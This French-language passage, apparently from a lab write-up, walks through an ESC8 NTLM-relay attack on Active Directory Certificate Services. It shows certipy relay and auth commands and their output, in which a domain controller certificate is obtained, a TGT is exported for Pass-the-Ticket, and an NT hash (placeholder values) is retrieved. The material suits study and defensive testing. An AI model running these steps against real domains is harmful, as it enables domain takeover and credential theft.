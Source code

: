 - L'AD répond en envoyant son authentification NTLM à l’attaquant (Listener).
- L’attaquant relaye cette authentification NTLM vers l'ADCS

#### 3. Réception du certificat sur le listener

![alt text](img/image-1.png)

```bash
certipy relay -target "http://$DC_IP/certsrv/certfnsh.asp" -ca "$DC_HOST" -template "DomainController"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://192.168.0.4/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[ ] officedomain\MY-AD01$
[*] Requesting certificate for 'officedomain\\MY-AD01$' based on the template 'DomainController'

[*] Got certificate with DNS Host Name 'my-ad-02.office.domain.local'
[*] Certificate object SID is 'S-1-5-21-222222-11111111-3333333-6144607'
[*] Saved certificate and private key to 'my-ad-02.pfx'
[*] Exiting...
```

Certipy relay permet
1.	Capture et relaye les identifiants NTLM.
2.	Envoie une requête authentifiée à AD CS pour obtenir un certificat.
3.	Stocke le certificat si l’opération réussit.

```bash
ls -lah 
total 8.0K
drwxrwx--- 1 root root  128 Feb 17 22:17 .
drwxrwx--- 1 root root  480 Feb 17 22:17 ..
-rw-rw---- 1 root root 1.6K Feb 17 17:25 my-ad-02.ccache
-rw-rw---- 1 root root 3.1K Feb 17 17:24 my-ad-02.pfx
```

Pour utilisé le ticket TGT que nous venons d'obtenir nous devons l'exporté en tant que variable d'environnement utilisable pour des attaques Pass-the-Ticket (PTT).

```bash
export KRB5CCNAME=my-ad-02.ccache
```

#### 4. Authentification avec le certificat

```bash
certipy auth -pfx my-ad-02.pfx -dc-ip $DC_IP
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: my-ad-02$@office.domain.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'my-ad-02.ccache'
[*] Trying to retrieve NT hash for 'my-ad-02$'
[*] Got hash for 'my-ad-02$@office.domain.local': aaaaaaaaaaaaaaaaaaaaaaaaa:bbbbbbbbbbbbbbbbbbbbbbbb
```
